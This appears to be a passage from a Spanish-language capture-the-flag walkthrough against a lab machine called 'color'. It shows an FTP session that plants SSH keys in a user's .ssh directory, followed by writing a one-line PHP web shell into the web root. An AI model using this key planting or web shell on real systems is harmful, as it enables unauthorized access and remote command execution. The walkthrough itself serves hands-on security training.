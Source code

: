 ```
229 Entering Extended Passive Mode (|||23857|)
150 Here comes the directory listing.
drwx------    3 1000     1000         4096 Feb 11 19:18 .
drwxr-xr-x    6 0        0            4096 Jan 27 22:44 ..
lrwxrwxrwx    1 1000     1000            9 Jan 27 20:30 .bash_history -> /dev/null
-rwx------    1 1000     1000          220 Jan 27 20:22 .bash_logout
-rwx------    1 1000     1000         3526 Jan 27 20:22 .bashrc
-rwx------    1 1000     1000          807 Jan 27 20:22 .profile
drwx------    2 1000     1000         4096 Feb 11 19:55 .ssh
-rwx------    1 1000     1000         3705 Feb 11 19:18 .viminfo
-rw-r--r--    1 1000     1000           23 Feb 11 16:59 note.txt
226 Directory send OK.

ftp> cd .ssh
250 Directory successfully changed.

ftp> ls -la
229 Entering Extended Passive Mode (|||55751|)
150 Here comes the directory listing.
drwx------    2 1000     1000         4096 Feb 11 19:55 .
drwx------    3 1000     1000         4096 Feb 11 19:18 ..
226 Directory send OK.

ftp> put id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||48057|)
150 Ok to send data.
100% |***************************************************|  2590       47.50 MiB/s    00:00 ETA
226 Transfer complete.
2590 bytes sent in 00:00 (5.28 MiB/s)

ftp> put authorized_keys 
local: authorized_keys remote: authorized_keys
229 Entering Extended Passive Mode (|||26498|)
150 Ok to send data.
100% |*******************************************|   563       13.42 MiB/s    00:00 ETA
226 Transfer complete.
563 bytes sent in 00:00 (1.24 MiB/s)

ftp> ls
229 Entering Extended Passive Mode (|||63371|)
150 Here comes the directory listing.
-rw-------    1 1000     1000          563 Mar 11 01:49 authorized_keys
-rw-------    1 1000     1000         2590 Mar 11 01:44 id_rsa
226 Directory send OK.
```

Ahora si nos conectamos mediante ssh. Al parecer el usuario pink no puede hacer mucho asi que nos tenemos que mover hacia usuario de www y luego intentar escalar privilegios

```
pink@color:/var/www/html$ touch test.php
pink@color:/var/www/html$ echo '<?php system($_GET['cmd']);?>' > test.php
pink@color:/var/www/html$ cat test.php 
<?php system($_GET[cmd]);?>
```

